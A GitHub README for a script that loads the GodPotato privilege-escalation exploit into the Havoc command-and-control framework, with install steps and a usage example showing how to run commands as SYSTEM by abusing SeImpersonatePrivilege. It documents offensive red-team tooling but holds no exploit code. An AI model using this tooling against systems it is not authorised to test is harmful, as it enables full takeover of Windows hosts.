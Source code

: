 # GodPotato script for Havoc C2

![Havoc Logo](https://github.com/HavocFramework/Havoc/raw/main/assets/Havoc.png)

```

    FFFFF                   FFF  FFFFFFF
   FFFFFFF                  FFF  FFFFFFFF
  FFF  FFFF                 FFF  FFF   FFF             FFF                  FFF
  FFF   FFF                 FFF  FFF   FFF             FFF                  FFF
  FFF   FFF                 FFF  FFF   FFF             FFF                  FFF
 FFFF        FFFFFFF   FFFFFFFF  FFF   FFF  FFFFFFF  FFFFFFFFF   FFFFFF  FFFFFFFFF    FFFFFF
 FFFF       FFFF FFFF  FFF FFFF  FFF  FFFF FFFF FFFF   FFF      FFF  FFF    FFF      FFF FFFF
 FFFF FFFFF FFF   FFF FFF   FFF  FFFFFFFF  FFF   FFF   FFF      F    FFF    FFF     FFF   FFF
 FFFF   FFF FFF   FFFFFFF   FFF  FFF      FFFF   FFF   FFF         FFFFF    FFF     FFF   FFFF
 FFFF   FFF FFF   FFFFFFF   FFF  FFF      FFFF   FFF   FFF      FFFFFFFF    FFF     FFF   FFFF
  FFF   FFF FFF   FFF FFF   FFF  FFF       FFF   FFF   FFF     FFFF  FFF    FFF     FFF   FFFF
  FFFF FFFF FFFF  FFF FFFF  FFF  FFF       FFF  FFFF   FFF     FFFF  FFF    FFF     FFFF  FFF
   FFFFFFFF  FFFFFFF   FFFFFFFF  FFF        FFFFFFF     FFFFFF  FFFFFFFF    FFFFFFF  FFFFFFF
    FFFFFFF   FFFFF     FFFFFFF  FFF         FFFFF       FFFFF   FFFFFFFF     FFFF     FFFF
```


## Description
This script is intended to facilitate usage of GodPotato exploit using Havoc `DotnetInlineExecute` feature.

## Installation
1. `git clone https://github.com/xl00t/Havoc-GodPotato && cd Havoc-GodPotato/`
2. `bash install.sh`
3. ![install1.png](assets/imgs/install1.png)
4. Click script manager
5. Click load script
6. And then choose GodPotato.py file.


## Usage
```
21/12/2023 17:50:09 [xl00t] Demon » help godpotato

 - Command       :  godpotato
 - Description   :  Inline Execute GodPotato in order to abuse SeImpersonatePrivilege and run commands as SYSTEM
 - Usage         :  godpotato -cmd "cmd /c command"
 - Example       :  godpotato -cmd "cmd /c whoami"
```